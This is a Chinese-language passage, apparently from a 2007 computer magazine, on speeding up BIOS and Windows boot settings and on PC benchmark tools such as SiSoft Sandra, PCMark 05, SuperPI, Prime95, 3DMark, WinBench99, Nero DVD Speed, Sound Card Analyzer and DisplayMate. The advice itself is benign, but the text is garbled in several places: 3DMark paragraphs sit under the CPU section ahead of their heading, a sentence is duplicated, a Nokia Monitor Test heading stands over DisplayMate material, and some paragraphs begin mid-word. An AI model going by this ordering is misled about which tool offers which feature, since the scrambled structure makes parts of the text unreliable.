是不是觉得开机时内存检测的速度很慢？某些主板的默认值竟然是对内存进行三次检测，对于日常应用而言这显然是不必要的。此时我们可以进入Advanced Chipset Features，然后注意一下Quick Power On Self Test这一选项。如果将它设定为Disabled的话，BIOS预设每次开机会对内存进行三次存取测试。建议大家把这一选项设定成Enabled，这样系统便会将存取测试的次数由三次缩减为一次。启动顺序的选择也非常重要，一般我们可以在Boot Device Setting中将第一启动设备设定为HDD0（即第一个硬盘）。

对于那些板载网卡而暂时并不使用局域网的用户而言，及时将该网卡屏蔽是很有必要的。当Windows在启动时，系统会自动查找服务器，浪费不少时间。此外，对于不需要使用的板载声卡、IEEE1394端口、串口等也可以一一关闭。相对而言，BIOS中的电源管理并不受人重视，不过它对于提高启动速度以及节能还是大有好处的。目前ACPI电源管理已经完全取代了APM，ACPI由BIOS收集硬件信息，定义电源管理方案，而操作系统负责执行。当我们把ACPI Function设定为Enabled时，就可以在Windows中启用各种节能功能。不过部分早期的VIA芯片组存在ACPI兼容性问题，在不安装补丁的情况下可能无法进入Windows，此时还是建议关闭ACPI Function。事实上，在BIOS中关闭ACPI Function并不等于完全失去节能功能。即便如此，Windows还是可以自动控制节能，只不过无法实现CPU、内存等节能。

值得一提的是，不少主板支持高级节能方案，可以在BIOS中的ACPI Suspeng Type设置。一般可供选择的有五项：S0正常，S1 CPU停止工作，S2 CPU关闭，S3除了内存外的部件都停止工作，S4内存信息写入硬盘，所有部件停止工作。其中S3与S4的作用最为明显，可以大大节省开机时间。不过在具体实现中，S3与S4节能模式还需要电源与其它设备的配合，很容易因为其它设备不支持而失败。

##### 5. 操作系统优化

大家也许都有这样的感觉，新装好的Windows系统总是比较快，而一旦用上一段时间后，速度会较为明显地减慢，这点在那些喜欢尝试各种软件的朋友身上更加明显。其实，说穿了并不是Windows低级，而是各类应用软件太“自私”了，因为它们都通过注册表在Windows启动时自动装载，占据了不小的内存空间和系统资源。要自己确定是否属于这种情况只要在Windows引导后，立即右键单击“我的电脑”，打开属性下的性能选项卡，查看系统资源。如果一开始就低于80%，那么显然这些自动引导的程序将严重影响游戏的表现。此时，我们可以通过运行msconfig来把这些基本无用的程序一一移出启动列表。如果你纯粹是为了运行游戏的话，可以把所有的内容全部删去，这样系统资源能达到90%以上。

目前不少测试软件对磁盘速度有着很高的要求，为此，大家一定要在测试之前整理硬盘上的碎片。不过，我们不推荐大家使用Windows自带的硬盘碎片整理程序，因为它实在太慢了，对硬盘的寿命也不利。这里，我推荐大家使用Vopt，它能快速有效地整理我们的硬盘，而且兼容中文文件名。另外，磁盘缓存对于提高硬盘速度也有很大的好处。Cacheman XP就是一款用于优化磁盘缓存的软件，而且还有专门针对运行游戏的预设置，可以起到很好的效果。

尽管目前很多人都有大容量内存，但是由于Windows的内存管理能力较差，因此还是会大量使用虚拟内存，并且不断调整大小，这点在游戏引导进入画面时表现得最为明显。为此，我们可以采取手动设置虚拟内存大小和存放位置的方法。我们只要进入“系统→属性”，然后在高级设置中单击“虚拟内存”即可。这时，大家可以根据自己内存大小来设置，一般设定为物理内存大小的1.5倍。当然，对于拥有1GB大内存的用户来说，设定到1GB就足够了。不过需要注意的是，其中的最大值和最小值一定要保持相等，这样虚拟页面文件就不会频繁地改变大小了，也避免大量碎片的产生。此外，如果有可能的话，尽量将虚拟文件放在速度较快的磁盘或者分区上。如果使用的操作系统是Windows 2000/XP，那么建议让内存自动管理，除非内存容量达到2GB以上，否则请不要将虚拟内存禁用。

#### 二、性能测试软件

如果想要以最快的速度了解电脑各方面的性能，那么使用综合测试软件是最明智的。一般而言，综合测试软件可以针对系统的磁盘性能、内存性能、CPU性能进行测试。此外，这类测试软件可以快速运行PhotoShop、Office、IE等常用软件，得出综合的成绩，具有一定的客观性，得到业界的公认。但是，假如是对单一的硬件产品进行横向对比，那么针对性更强的测试软件才是首选。

##### 1. 综合测试软件

###### (1) SiSoft Sandra Standard 2007

对于大多数用户而言，需要一款使用简单，并且可以立即知道电脑具体配置与性能的软件，而这两个方面正好是SiSoft Sandra Standard 2007的特长。不过大家需要注意的是，SiSoft Sandra 2007有两个版本，一种是网上可以随便找到的标准版SiSoft Sandra 2007Standard，这个版本相当于试用版，界面和菜单与专业版完全一样，但其中部分功能被屏蔽掉，相对而言专业版SiSoft Sandra 2007Professional的功能更加全面，不过价格不菲。一般来说，我们使用标准版SiSoft Sandra 2007就可以了。图5是测试功能完善的SiSoft Sandra Standard 2007。



SiSoft Sandra的模块被分成四类：Information Modules信息类模块、Benchmarking Modules分值测试类模块、Listing Modules列表类模块和Testing/Diagnostic Modules测试/诊断类模块，这四类模块形成了Sandra强大的系统分析测试功能。毫无疑问，信息类模块和分值测试类模块是最有用的。在SiSoft Sandra的信息类模块中，我们可以对CPU、显卡、声卡、硬盘、内存等硬件的信息详细了解。

当然，大家更为关心的还是性能测试模块。在这里，我们可以测试CPU、内存、磁盘、网络性能，而且SiSoft Sandra为我们列出了多种常见配置的测试成绩，大家可以横向比较。

###### (2) PCMark 05

相对SiSoft Sandra，PCMark 05的测试方式有很大的不同，它并非简单地测试理论值，而是通过同时运行PhotoShop、Office、IE、Visual Studio、DVD回放、MPEG4编码等常用软件来衡量电脑的整体性能。PCMark 05也分为专业版与标准版，免费的标准版只是不能进行视频测试与WindowXP 2D测试。图6为简单易用的PCMark。



PCMark 05的使用非常简单，在其主界面我们可以设置所需要的测试内容。一般而言，大家可以使用“基准测试”，这样数据具有较大的可比性。在PCMark 2004中，测试内容分为“CPU测试”、“内存测试”、“硬盘测试”和“关键测试”四个部分，如果你需要选择具体的测试内容，那么可以在主界面进行详细的选定。

大约10分钟以后，PCMark 05的“基准测试”就可以跑完，此时具体的性能得分会显示出来。如果你需要对比其它电脑的测试成绩，那么可以使用“在线结果浏览器”。此外，单击“详细信息”后还可以看到各个测试小单元的详细得分。

除了以上最具代表性的测试软件以外，Wintune98、3D WinBench、CC Winstone和PassMark Performance Test也都是不错的选择。相对而言，Wintune98推出时间较早，因此其基准测试软件有些过时；而3D WinBench则主要考验系统的3D处理速度。不过需要注意的是，这里测试的并非是游戏的3D速度，而主要是CPU处理3D计算的速度，当然这与显卡GPU也有不小的关系；至于PassMark Performance Test，则是一款综合性的测试软件，可以对CPU、显卡、内存、硬盘等进行测试，并且给出一个综合分数。

##### 2. CPU测试软件

###### (1) CPUmark 99

也许大家最关注自己所使用的CPU究竟性能如何，而那些综合测试软件并不能完全反应出CPU的真实情况，因为测试结果受到其它部件的干扰。CPUmark 99是由大名鼎鼎的ZD Labs推出的专业级CPU测试软件，它现在已经整合在Winbench99中。不过，CPUmark 99也有独立版本。图7为依然不过时的老牌测试软件。



CPUmark 99的使用及其简单，无需我们多作介绍。执行主程序后，按下"Run Test"按钮即可进行标准测试，而且CPUmark 99也不像其它大型测试软件那样可以自定义测试方式。CPUmark 99可以对你电脑的CPU子系统的效能给出标准的评估分数。简单地说，就是给你的CPU打分。这个分数表示你的CPU速度的快慢，分数越高，表示你的CPU速度越快。虽说CPUmark 99的年代已经很久远，但是在国外专业媒体的测评单元中，它依然是极具参考价值的测试软件。

###### (2) SuperPI

SuperPI是目前普遍用来测试CPU速度的小工具，而且它对内存以及CPU的稳定性有较高的要求。对于CPU而言，稳定性与速度同样重要，而SuperPi则是一款兼顾这两方面的测试软件。事实上，SuperPI的成绩与内存速度也有很大的关系，不过CPU速度是决定最终成绩的最重要因素。SuperPI的使用也没有太多的学问，选择好计算位数之后直接运行即可，建议大家选择104万位以上。SuperPI以计算圆周率所用的时间来衡量CPU性能，时间越少表明性能越好，而如果能够顺利通过209万位测试，那么至少说明稳定性基本上可以保障。如图8。目前非常流行的CPU测试软件。



###### (3) Prime95/SP2004

如果你希望验证CPU的稳定性，那么Prime95将是最简便的工具，现在最新版本更名为SP2004。实际上它是一款分布计算客户端软件，因为对CPU占用率非常高，因此稍许的不稳定因素就可以导致系统崩溃。毫不夸张地说，只要你的CPU能够通过Prime95的所有测试，那么它在其它应用程序中的运行也将是非常稳定的。图9为偏重稳定性测试的SP2004。



此外，如果你的显卡支持硬件T&L，那么一定要打开该选项，它至少可以令测试成绩提高30%。图10为经典的DX8测试软件。



在运行测试之前，大家可以单击“已选测试”中的改变按钮，这里可以去除一些显卡无法支持的特效测试。如果你不清楚显卡是否支持的话，可以使用默认的标准测试。3DMark2001SE的测试画面可谓美轮美奂，这也是它广受欢迎的重要原因之一。现在看来，3DMark2001SE似乎已经过时了。但是，很多3D游戏还是基于DX8，而且这款软件能够撇开Shader部分对测试成绩的影响，所以参考价值依然是很大的。

###### (2) Quake3 Arena

这款游戏主要用于测试OpenGL性能。进入Quake3 Arena游戏界面后，点击“~”键，就进入了命令提示符状态。接着我们输入“s_initsound 0”，回车后再输入“snd_restart”，确定后，我们就把声音关掉了。此外，Quake 3 Arena还能够支持多处理器环境，不过你要获得该支持必须加入“r_smp 1”指令。如果你的配置是双CPU的话，那这回你就有福气了。好了，在关掉声音之后，我们就可以输入“timedemo 1”以打开它的测试模式了。打开测试模式之后，我们进入主菜单“Setup”里的“System”来设置如分辨率、色深以及细节设置等详细参数，Quake 3已经为我们预定义了四组默认设置：High Quality、Normal、Fast、Fastest。图11为OpenGL性能测试的最佳帮手。

##### 3. 3D性能测试

3D游戏是目前最热门的，也是不少读者的最爱。如果想要快速、全面、准确地了解一台电脑能够获得怎样的3D游戏效果的话，那么使用以下测试软件将获得很好的效果。

###### (1) 3DMark2001SE

3DMark2001SE是目前的权威级显卡性能测试软件，它采用了Remedy Entertainment的MAX-FX引擎，着重考察系统的D3D速度。更为重要的是，3DMark2001SE全面支持微软的DirectX 8，可以测试显卡的各种3D特效。3DMark2001SE的默认测试环境为1024×768×32Bit，24位Z缓冲，32位纹理，DXTC 1/3格式的压缩纹理。当然，你也可以通过“显示卡和CPU设置”来修改运行环境。需要注意的是，分辨率与颜色数越高，其测试得分也就越低。此外，如果你的显卡支持硬件T&L，那么一定要打开该选项，它至少可以令测试成绩提高30%。图10为经典的DX8测试软件。

选择好相应的设置之后，回到主菜单，点击“Demos”并在其中选择一个Demo来测试运行。测试结束后，再次按下“~”键，我们就可以看到测试成绩了。如果你想对多个设置进行测试，可以回到命令提示符状态，再次键入“timedemo 1”，并完成下面的步骤。

### （3）Viewperf

与3Dmark以及Quake3不同的是，Viewperf主要测试显卡的3D渲染速度，并以3DS Max、MAYA、AutoCAD等专业级3D建模与制图软件为基础。如果你的显卡能在Viewperf中得高分，那么用它来运行3D建模软件将会得心应手。Viewperf的最常用版本为7.0，其下载地址为http://www.spec.org/gpc/downloadindex.html。Viewperf采用全自动运行方式，默认执行Advanced Visualizer (AWadvs-04)、DesignReview (DRV-07)、Data Explorer (DX-06)、Lightscape (Light-04)、MedMCAD01和ProCDRS-03六项测试，运行结束后生成详细的成绩报表。图12为专业领域的OpenGL性能测试软件。



### （4）3Dmark03 ~ 3Dmark06

经历了3Dmark 2000的稳定过渡以及3Dmark 2001的辉煌之后，FutureMark在孕育多时的3Dmark03中铩羽而归。由于Shader方面的区别，FutureMark被nVIDIA与ATi两家牢牢纠缠，甚至被认为失去了测试软件最基本的公正性。更为令FutureMark忐忑不安的是，AquaMark3异军突起，成为又一款十分出色的DirectX9测试软件。面对这些窘境，FutureMark痛定思痛，终于在2004年年底推出3Dmark05，并且又发布了3Dmark06。

3Dmark03确实一改以往的做法，仅仅采用4个游戏测试来完成基准测试，然后对显卡的3D性能进行评分。从画面效果来看，3Dmark03的表现确实相当不错，所有的游戏场景测试完全通过实时渲染来完成，实实在在地达到了电影CG级别的效果。然而应当指出的是，第2、3个游戏场景全部采用了Pixel Shader 1.4，但实际上目前包括Tiger Woods、Unreal Tournament 2003等基于DirectX8的绝大部分新老游戏，仍然使用Pixel Shader 1.1/1.3，Pixel Shader 1.4几乎没有任何主流3D游戏采用，而3Dmark03过分倾向于利用率较低的Pixel Shader 1.4。从另一方面来看，3Dmark03采用的DirectX 9.0测试场景也没能完全展现出GPU对于DirectX 9.0的支持程度以及效果，过于单一甚至片面的测试令人难以信服。

从另一方面来说，3Dmark03的测试方法也有待商榷。与以往任何版本的3Dmark相比，3Dmark03的测试方法都显得更为“单纯”，仅仅这几个游戏场景自然无法百分百地展现出显卡的真实性能。在“大众化”这条道路上，3Dmark03确实走得太远了，测试过程的视觉效果甚至凌驾于全面性之上。如果有可能的话，我们认为3Dmark03应该分成多个DirectX对应版本，并且不应该因为显卡不能支持新技术而使其成绩大幅度下降，毕竟这些“新技术”暂时还不具备实用价值。

尽管FutureMark奉行免费测试的传统，但是3Dmark05的门槛可不低。按照官方说明，其最低测试环境要求为：CPU达到2GHz以上主频，内存不少于512MB，显存至少128MB，而显卡必须在硬件上支持DirectX 9.0特效，操作系统也全面转向Windows XP。毫无疑问，很多测试用户都会因为如此高的硬件要求而失去与3Dmark05亲密接触的机会。3Dmark05软件的界面和3Dmark03版本基本没有分别，可以说是对3Dmark03的一个强化和细化。主窗口介绍了目前测试项目的选择状态，分为Tests：测试项目列举；Setting：当前测试项目环境设置；System：系统环境参数；Results：测试结果浏览。底下的高级选项条从左到右的功能分别为“Run 3Dmark”：运行3Dmark进行测试；“Image Quality”：对测试场景进行截图以进行画质对比；“Filtering & AA”：考察图形系统在材质过滤以及全屏抗锯齿下的画质以及算法表现；“Graphs”：将单一场景测试的Pixel Shader输出到EXCEL中制成曲线图；“Demo”：观看测试场景的全部动画，并非常规测试部分。图13为3Dmark05的主界面。



原本3Dmark03在技术上并不落后，但是问题的关键在于FutureMark的Shader部分选择难以同时满足两大厂商的需求。对于游戏开发商而言，愿意为哪一家优化都是无可厚非的，而作为测试软件，站在公平性的角度来说就不能那样随心所欲了。在3Dmark05中，FutureMark放弃了自己编写的Shader，而是全面改用微软提供的HLSL进行渲染引擎的编写，以让引擎自动适应测试显卡的硬件架构。在软件上，3Dmark05的渲染引擎会自动检测显卡并做出如下的渲染方式：PS 2_0、PS 2_a、PS 2_b、PS 3_0；PS 2_0、PS 2_a、PS 3_0。毫无疑问，nVIDIA的Geforce FX6000系列所提倡的Shader Model 3.0已经在此得到支持，不过FutureMark在计算得分时并未区别对待，因此ATi显卡也不会在测试中吃亏。

在2005年之前，FutureMark一直坚持每两年推出新版3Dmark的惯例。然而2006年却是一个例外。从技术角度来看，由于nVIDIA SLI、Shader Model 3.0以及HDR技术应运而生，而且nVIDIA和ATi的高端产品已经实现3Dmark05破万，因此新款测试软件的推出显得很有必要。3Dmark06主要使用最新一代游戏技术衡量DirectX 9级别的3D硬件。此前的3Dmark都是随着新版DirectX和新一代硬件的发布而推出，在一定程度上限制了3Dmark对最新硬件性能的充分挖掘。现在，DirectX 9已经发布3年，该级别的硬件已经遍布高中低各个领域，因此3Dmark06可以完全利用DirectX 9的特性。事实上，3Dmark06所有测试都需要支持SM3.0的DirectX 9硬件，不过只支持SM2.x的硬件也可以运行大部分测试。图14为运用Shader Model 3.0以及HDR的测试画面。

##### 4. 存储系统测试

硬盘的速度极为关键，特别是对那些经常运行大型程序的用户而言。毫无疑问，WinBench99 Disk Winmarks是测试硬盘性能的权威。不过，WinBench99 Disk Winmarks并没有独立版本下载，大家只能下载整个Winbench 99。打开WinBench99，我们可以将Run下拉列表选定为Disk Winmarks。按下Run按钮之后，WinBench99会自动调用Windows的磁盘整理工具，如果你没有耐心的话，也可以将其取消。当Windows重新启动之后，Disk Winmarks会立即开始测试。如图15，WinBench99的专业性依然是值得肯定的。





Disk Winmarks的整个测试过程相当缓慢，而且占用大量的系统资源，此时最好连鼠标也不要动。当最后得出成绩后，我们可以用WinBench99进行详细的细节浏览，并与其它电脑作对比。Disk WinMarks的成绩分为商用磁盘性能（Business Disk WinMarks99）及高端应用磁盘性能（High-End Disk WinMarks99）。普通商用磁盘性能反映的是磁盘子系统在运行商用软件时的性能，而高端应用磁盘性能是磁盘子系统在运行FrontPage 98、MicroStation SE、Photoshop 4.0、Premiere 4.2、Visual C++ 5.0等软件进行测试时的性能。如图16，WinBench99很适合考察磁盘性能。

##### 5. 内存测试

使用Super PI可以大致测试内存与CPU的稳定性，但是如果想进一步精确地检测内存品质，DocMemory Diagnostic将是最佳的选择，它也有“内存神医”的美称。DocMemory Diagnostic使用严谨的测试算法和程序检测电脑基本内存和扩展内存，用户无需拆除内存条即可进行检测。从网上下载的初装软件可以生成一个自行启动的“内存神医”测试软盘。只要将这个软盘插入欲测电脑的软驱内并启动电脑即可开始内存检测。DocMemory Diagnostic提供十种精密的内存检测程序，其中包括MATS、MARCH+、MARCHC-等。


DocMemory Diagnostic有两种测试方法供选择：快速测试（Quick Test）与老化测试（Burn-in Test）。默认选择是“Burn-in Test”。二者的主要区别是：Burn-in Test将连续多次进行测试，而Quick Test则只测试一次。选用老化测试可以检测出99%的内存故障，而快速测试可以检测出85%以上的内存故障。单击“Action”菜单下的“Run_Test”或按下快捷键F5开始测试。测试时屏幕显示内存条的测试状态、系统信息和测试结果。如果测试不能通过将发生警告并高亮显示发生错误的位置。只有全部显示为“PASS”才表示测试通过。

##### 6. 光驱测试

以Nero刻录软件而出名的Nero公司所推出DVD Speed可谓是目前最好用的一款光驱测试软件，大家只要安装完整版的Nero刻录软件即可，因为这个测试工具已经集成于刻录软件包中。在进行测试之前，请大家确保将光驱的DMA功能打开，因为这项功能会对最终的测试效果产生很大的影响。对于少数支持ATA66/100技术的产品，我们还要使用80pin的数据线。当然，对于各款芯片组而言，安装补丁程序或者加速器也是很有必要的。总之，我们在测试之前应该尽可能地做好一切优化工作，这样才能让测试结果更加客观！

将DVD光盘放入光驱之后，我们按下Start按钮即可开始测试。需要注意的是，光驱的测试成绩与我们所使用的光盘也有很大的关系，因此尽量使用优质的正版光盘。此外，不同种类的盘片也会客观上决定测试结果。DVD-R与DVD+R盘片的反射率远不如压制的DVD，因此结果会相差很多。一般而言，建议大家使用DVD数据盘、CD-R、DVD-R与DVD-RW音乐光盘进行分别测试。

Nero DVD Speed在对整张光盘进行读取之后会显示出所有重要的信息，其中包括平均速度、开始速度、结束速度和读盘类型。对于前三者，想必大家很容易理解，自然是数值越高越好。当然，大多数用户还是喜欢参考直观读取数据图。图中绿色的线条表示对应每一时刻的读取速度，而黄色的线条表示光驱马达的转速（×100）。如果盘片质量理想的话，读取的数据图应该相当平滑，没有明显的凹凸。当然，有时我们还可以用带有少量划痕的光盘来考验光驱的纠错能力，此时优秀的光驱会在遇到数据错误时降低速度，而后立即提速。然而那些性能一般的光驱只能采取简单的降速，而且不会再次提升。如图17，Nero DVD Speed测试软件。



至于读盘类型，它大致可分为恒定线速度（CLV）、恒定角速度（CAV）、半恒定角速度（P-CAV）和区域等线速度（Z-CLV）。目前大多数CD-ROM和DVD都采用恒定角速度，CLV是8X以下DVD光驱以及低速CDRW和COMBO所采用的，而多数高速光驱则使用半恒定角速度或者区域等线速度。

在查看数据读取的数据图时，我们应该根据其读取方式来客观地分析，而不是一看到曲线不平滑就认为光驱质量不佳。下面我们展示了各种读取方式的图表特点，如图18，图中陡峭的地方是应该出现的。P-CAV模式由16倍速开始渐渐地加速，直到大约在光盘15分钟处达到24倍速后维持一定速度。所以前15分钟用的是CAV非等速模式，接着切换到24倍CLV模式。而Z-CLV模式则是以阶段性加速的。图中您可以可以看到它的起速是16倍CLV，过了光盘6分钟处切换到20倍CLV，接着在16分钟处切换到24倍CLV。在此模式下，每一次切换速度时，刻录过程都会有明显的中断。当然，在实际测试中，我们对于这些理论上不可避免的数据起伏应该有所准备，这并不是由于产品品质而造成的。相反，对于那些不该出现起伏的地方，我们就可以怀疑是盘片或者光驱本身的因素而形成的。



事实上，DVD Speed的测试功能不仅局限于此，它还可以准确地告诉我们光驱的寻道时间以及CPU占用率。在Seek Times Random这一栏，DVD Speed可以显示“Random”、“1/3”和“Full”这三种测试情况。其中Full是指光驱在放入光盘后的全盘寻道时间，而Random指随机寻道。

DVD Speed可以对刻录机的性能进行有效的评估，而且它并非是实际写入文件，因此测试的结果不会受到硬盘速度、文件大小等因素的影响，数据更加具有说服力。使用DVD Speed进行刻录机性能测试是相当简单的，我们只要将DVD刻录盘插入，然后按下Start按钮即可。在各项测试数据中，其意义与普通DVD测试完全一样，只是刻录速度远不及读取速度罢了。由于使用非常简单，我们对此也不多作介绍。

##### 7. 盘片质量测试

功能强大的DVD Speed不仅能对光驱进行测试，还可以对数据盘进行全面的测试。打开Extra菜单下的“CD Quality Test”，我们就可以对整张光盘的数据情况进行检测。如果数据有任何缺陷，DVD Speed会立即显示出来。此外DVD Speed还能实时地显示光盘的读取速度；如果其速率明显低于光驱的标称值的话，那么表明盘片的质量很一般。需要注意的是，这项测试对于光驱的损害很厉害，因为DVD Speed遇到数据错误时会反复尝试读取，如果没有必要的话，不要经常进行测试。Scandisk大家一定很熟悉，这是Windows下检测磁盘的工具。而在DVD Speed中，它将这一功能延伸到了光盘，对于任何数据结果错误，



事实上，DVD Speed的强大之处并不在于普通CD数据盘检测，而是对刻录盘的测试。打开Extra菜单下的“CD-R Info”，我们可以看到关于这张刻录盘的详细信息，包括厂商、序列号、容量等关键信息。有了这一工具，我们在购买刻录盘时就多了一分保障，如图20，查看刻录盘的信息。



“超刻”是目前相当常见的高级刻录方式，它可以让我们在一张光盘中容纳下更多的文件，从而节约耗材。但是，超刻也有一个“度”的问题，如果超刻过量，那么刻录盘将报废，甚至损坏刻录机。因此在超刻之前获取CDR盘片的实际容量是十分关键的。有了火眼金睛的DVD Speed之后，这些问题都迎刃而解了。打开Extra菜单下的“Overburning Test”，DVD Speed会模拟刻录，因此其测试结果相当准确。

#### 三、多媒体设备测试

与CPU、硬盘、显卡等设备相比，声卡、显示器等多媒体设备的测试要更加困难。不过在各种优秀测试软件的帮助下，我们也能实现这一愿望。一起来看看你的电脑拥有怎样的多媒体表现吧！

##### 1. 声卡测试

当今游戏带给我们的已经不仅仅是流畅精美的画面，动感逼真的音效也同样是一款出色游戏不可或缺的部分。如同画面需要高性能的3D显卡去诠释一样，声音也需要功能强大的声卡去演绎。游戏中，我们对声卡的首要要求就是音效定位！在诸如CS等第一人称射击游戏中，很多游戏高手都是通过脚步声来判断敌人所处的位置。毫不夸张地说，如果失去了音效定位能力出色的声卡支持，那么这些高手就好比在眼睛上蒙了一层纱布。

###### （1）Audio Winbench

Audio Winbench的测试分为音效定位与CPU占用率单元，我们在进入其主界面后可以选择。需要注意的是，Audio Winbench可以分别以不同采样率的WAVE文件对声卡的DirectSound、DirectSound3D等函数调用进行测试，大家可以在Select Test中进行选取。如图21，Audio Winbench声卡测试软件。



###### （2）Sound Card Analyzer

声卡测试软件之所以少是因为其指标具有相当的主观性。与显卡的FPS不同，音质的好坏有时难以直观地判断，很可能见仁见智，因此几乎没有一款声卡测试软件能够说服所有人，成为业界的标准。从技术上来看，声卡的测试也是相当困难的。在专业领域，声卡的测试一般使用音响测试仪器，这种设备具有音频输出与输入功能，通过与声卡的Line In/Out形成一个循环之后，通过测试仪器内部的频率分析器来检验声卡的性能。但是这种设备价格不菲，绝对不可能在普通用户甚至玩家手中普及。尽管音响测试仪器因其成本原因不可能大为普及，但是其测试原理还是毋庸置疑的。也正是来源于这种设备的灵感，目前出现了一款最新的声卡测试软件——Sound Card Analyzer。Sound Card Analyzer可以测试的项目包括：声卡的频率响应（Frequency Response Test）、本底噪声（Interference and Noise Level Test）、动态范围（Dynamic Range Test）、总谐波失真与噪声（Total Harmonic Distortion Test）、立体声分离度（Stereo Channels Crosstalk Test）等几项技术指标。

### 2007年热点技术与应用



需要注意的是，这根音频线的质量也会对测试效果产生一定的影响，因此大家尽量选择粗一点的音频线，当然接口最好是镀金的。如果你有MD随身听中原装模拟音频线的话，那么用在这里是最合适不过的了。对于目前非常普遍的多声道声卡，建议大家先用随声卡附送的软件将声卡设置为两个双声道输出，这样可以避免多声道的干扰，然后将音频线接在声卡的第一个音频输出口上。



由于Sound Card Analyzer在测试时需要同时调用声卡的录音与回放功能，因此所测试的声卡必须是全双工的，不过对于目前主流的PCI声卡而言，这个还是不成问题的。但是，很多用户平时把声卡的录音选项关闭，因此测试之前我们必须将其打开。需要注意的是，这里打开的录音选项是Line In，而非Mic In。此外，建议大家把输入音量设定在50%即可。为了让大家对测试结果有一个全面的了解，我们介绍一下各个项目的含义。

### 频率响应

频率响应是指声卡对于低中高音频的回放能力，有些用户总是抱怨自己的声卡中高音表现不错，而低音欠佳，这就是因为在不同频率下的响应不均衡而造成的。如图23，我们展示的是这两款声卡的测试图表，理想的状况应该是一条平整的直线。

### 本底噪声

大家在欣赏音乐时是不是感觉有噪音？排除音箱的因素，声卡也有一定的责任！Sound Card Analyzer的这一单元就是测试声音的纯净度。如图24，在图表中，水平线的位置应该越低越好，特别是靠前端的一部分，它最能反映声卡在这方面的素质。



### 动态范围

音质压抑、厚度不足、缺乏震撼力，很多人都这样抱怨自己的低档声卡，其实这就是动态范围不足的表现。在Sound Card Analyzer中，1000Hz下是最能够体现声卡动态范围的地方。如图25，图中起伏越大表明声卡的动态范围越广。



### 立体声分离度

左右声道的分离效果对于声卡而言非常重要，在游戏与流行音乐中，左右声道的实时切换是经常运用的技术。排除两个音箱摆放位置的因素，声卡本身的分离能力也很重要。如图26，两根线表示两个声道的分离效果，如果分离效果好的话，那么这两根线应该基本上不交错。



##### 2. 显示器测试

高高兴兴地买来显示器后，直接插上电源就可以用了吗？当然不是！即使是名牌产品，总有一些不尽如人意的缺陷之处。如果情况特别严重，那么我们应该立即与经销商联系。但是问题在于很多显示器的瑕疵是很不容易发现的，此时我们必须借助相关的测试软件。

判断一台显示器的性能，对普通用户来说，是一件非常难的事情，往往通过一系列的技术测试后，获得高分的显示器并不一定在显示图像时表现得同样优秀。这主要是因为，每一个人对同一幅画面的品质都有自己的主观感受。就像对同一幅画面哪怕最著名的名画，每一个观赏者都有自己的感受和理解一样，对显示器的显示效果优劣的判定也存在着这种非常主观的判断标准。因此，任何一台显示器，只要在技术指标和技术测试达到可接受的范围之后，对显示器显示优劣的判断，最主要还得靠自己的主观判断。而测试软件所能做的就是突出显示器的缺点，让各种瑕疵更加明显地暴露在我们面前。

###### （1）Displaymate

Displaymate是由著名的SONERA科技公司推出的一款专业级显示设备测试软件，它提供了对多种显示设备的安装调整及测试评估的功能。该软件使用简单，通过一系列的特殊检测便可以让劣质显示器原形毕露。推荐大家使用1.22 Internet Video Edition，而不要使用最新的1.23。道理很简单，1.23是Demo版，屏蔽了很多功能，而原先的1.22则基本上可以全功能试用。当我们安装好Displaymate后，程序组里面会有一个Master Test-Pattern工具，我们使用它可以最简单地判断显示器的各类问题，包括偏色、聚焦不良等。不过MasterTest-Pattern毕竟是一个很简单的图形显示，因此并不全面。如果你的显示器在这项测试中就有明显的问题的话，那么应该立即找经销商联系了。初次进入Displaymate的主程序界面，大家肯定会感到一头雾水，因为界面比较杂乱。不过我们所要关注的仅仅是Setup Program和Tune-Up Program两个主要模块。如图27，Displaymate显示器测试。

器往往有更加良好的聚焦效果，因此图像更加细腻，文字也清晰可见。由于显示器的屏幕表面不可能与电子枪是一个同心的曲面，所以必然会导致屏幕边角的失聚，屏幕四周的聚焦不如中心位置清晰。我们在进行这项测试时一定要着重注意边角的聚焦情况。若发生问题的话，找找显示器有无Focus（焦距）的调整选项加以调整。如图30，测试显示器的聚焦效果。

###### （2）Nokia Monitor Test

Tune-Up Program可以说是Displaymate的精华所在，集中了大量的显示测试功能，能有效地检测出一款显示器的性能好坏。不过对于目前大部分用户来说，其中的一些测试项目要求比较苛刻，十分专业化，因此大家对自己的显示器也不可要求太高，毕竟大多数人的都是民用市场产品。

Geometry and Distortion是测试几何变形的有力工具，任何细微的偏差都逃不过它的火眼金睛。特别是在第一项测试中，到目前为止我还没有看到过哪款民用级显示器能够完美地显示圆弧，似乎总有一些偏差。不过这一问题应该相对地来看，尽管做不到十全十美，但是尽可能地接近一个圆还是可能的。在随后的直线测试中，我们要着重观察各线条之间是否平行，并且呈完全直线状。如给大家截图，该显示器的水平部分的直线还是相当不错的，而竖直部分就有不小的偏差了。

Nokia的手机自然是家喻户晓，Nokia的显示器在欧美地区也是名牌产品，也许只有这样的权威大厂才有资格推出这种专业级的显示器测试软件。相对DisplayMate而言，Nokia Monitor Test的功能要略微逊色一些，不过这款软件使用更加简单，界面清爽，也完全没有注册的烦恼。此外更加重要的是，Nokia Monitor Test对聚焦、收敛度、文字效果和摩尔纹的测试比DisplayMate更加出色。这也是我建议大家同时使用这两款测试软件的原因。如图29，另一款值得推荐的显示器测试软件Nokia Monitor Test。

对于从事图形设计或者网页制作的朋友而言，显示器的色彩与灰度表现是极其重要的，DisplayMate的Color and Gray-Scale测试单元可以非常方便地检验显示器的这方面能力。Color and Gray-Scale所展示的第一幅图片可以让我们检验整个显示器的画面颜色是否均匀一致。通过拉动下方面板的滑动杆，上方的颜色会实时变化，此时要仔细对比它与面板所显示颜色的差别。如果两者完全一致，则表明显示器一切正常，没有问题。其实这类故障主要出现在一些旧显示器中，多由CRT荧光粉老化而引起，一般在新的显示器中不会存在类似缺陷。颜色与颜色复合时，不少显示器会有色彩不纯，甚至严重偏色，或者根本看不清的问题。DisplayMate选择了一幅由多种复合颜色构成的图案，让我们可以细致地检验。如图28，检查因老化而引起的色彩偏差。

